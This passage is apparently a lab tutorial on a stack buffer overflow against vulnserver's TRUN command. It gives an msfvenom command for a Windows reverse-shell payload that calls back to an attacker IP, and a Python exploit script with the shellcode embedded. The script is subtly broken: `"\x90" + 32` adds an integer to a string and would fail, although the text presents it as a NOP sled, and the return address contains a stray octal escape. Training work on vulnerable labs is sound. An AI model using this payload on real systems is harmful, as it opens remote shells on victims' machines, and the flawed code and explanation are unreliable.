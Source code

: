 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, to generate our payload, the command will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to
**EXITFUNC:** Makes connection more stable
**-f:** for file type in this case C
**-a:** for architecture, could be x64 or x86
**-b:** for bad characters

- Paste this command into your terminal and you should get a payload

![](https://i.imgur.com/fTp8ZvG.png)

Now insert this payload into this python script replacing the value of the variable `shellcode` with the payload 

```python
#!/usr/bin/python
 
import sys, socket

overflow = ("\xbe\xa0\x7a\x1b\xf1\xdb\xdf\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x70\x12\x83\xc0\x04\x03\xd0\x74\xf9\x04\xec"
"\x61\x7f\xe6\x0c\x72\xe0\x6e\xe9\x43\x20\x14\x7a\xf3\x90"
"\x5e\x2e\xf8\x5b\x32\xda\x8b\x2e\x9b\xed\x3c\x84\xfd\xc0"
"\xbd\xb5\x3e\x43\x3e\xc4\x12\xa3\x7f\x07\x67\xa2\xb8\x7a"
"\x8a\xf6\x11\xf0\x39\xe6\x16\x4c\x82\x8d\x65\x40\x82\x72"
"\x3d\x63\xa3\x25\x35\x3a\x63\xc4\x9a\x36\x2a\xde\xff\x73"
"\xe4\x55\xcb\x08\xf7\xbf\x05\xf0\x54\xfe\xa9\x03\xa4\xc7"
"\x0e\xfc\xd3\x31\x6d\x81\xe3\x86\x0f\x5d\x61\x1c\xb7\x16"
"\xd1\xf8\x49\xfa\x84\x8b\x46\xb7\xc3\xd3\x4a\x46\x07\x68"
"\x76\xc3\xa6\xbe\xfe\x97\x8c\x1a\x5a\x43\xac\x3b\x06\x22"
"\xd1\x5b\xe9\x9b\x77\x10\x04\xcf\x05\x7b\x41\x3c\x24\x83"
"\x91\x2a\x3f\xf0\xa3\xf5\xeb\x9e\x8f\x7e\x32\x59\xef\x54"
"\x82\xf5\x0e\x57\xf3\xdc\xd4\x03\xa3\x76\xfc\x2b\x28\x86"
"\x01\xfe\xff\xd6\xad\x51\x40\x86\x0d\x02\x28\xcc\x81\x7d"
"\x48\xef\x4b\x16\xe3\x0a\x1c\xd9\x5c\x14\x41\xb1\x9e\x14"
"\x68\x1e\x16\xf2\xe0\x8e\x7e\xad\x9c\x37\xdb\x25\x3c\xb7"
"\xf1\x40\x7e\x33\xf6\xb5\x31\xb4\x73\xa5\xa6\x34\xce\x97"
"\x61\x4a\xe4\xbf\xee\xd9\x63\x3f\x78\xc2\x3b\x68\x2d\x34"
"\x32\xfc\xc3\x6f\xec\xe2\x19\xe9\xd7\xa6\xc5\xca\xd6\x27"
"\x8b\x77\xfd\x37\x55\x77\xb9\x63\x09\x2e\x17\xdd\xef\x98"
"\xd9\xb7\xb9\x77\xb0\x5f\x3f\xb4\x03\x19\x40\x91\xf5\xc5"
"\xf1\x4c\x40\xfa\x3e\x19\x44\x83\x22\xb9\xab\x5e\xe7\xd9"
"\x49\x4a\x12\x72\xd4\x1f\x9f\x1f\xe7\xca\xdc\x19\x64\xfe"
"\x9c\xdd\x74\x8b\x99\x9a\x32\x60\xd0\xb3\xd6\x86\x47\xb3"
"\xf2")

shellcode = "A" * 2003 + "\xaf\x11\x50\62" + "\x90" + 32 + overflow

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

Note that the `"\x90" + 32` in `shellcode = "A" * 2003 + "\xaf\x11\x50\62" + "\x90" + 32 + overflow` is called a noop which mean **No Operation**

- Save this script 
- Now start up vulnserver on your windows machine